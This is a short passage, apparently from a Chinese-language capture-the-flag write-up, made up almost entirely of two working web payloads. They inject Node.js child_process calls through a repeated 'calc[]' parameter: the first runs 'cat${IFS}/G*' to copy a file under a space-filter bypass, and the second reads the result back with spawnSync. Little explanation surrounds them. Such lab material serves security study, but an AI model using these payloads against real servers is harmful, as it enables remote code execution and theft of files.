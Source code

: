 ```
calc[]=Object.values(require('child_process'))[5]('cat${IFS}/G*>p')&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=.
```

最后直接回显：

```
calc[]=require('child_process').spawnSync('nl',['p']).stdout.toString();&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=.
```
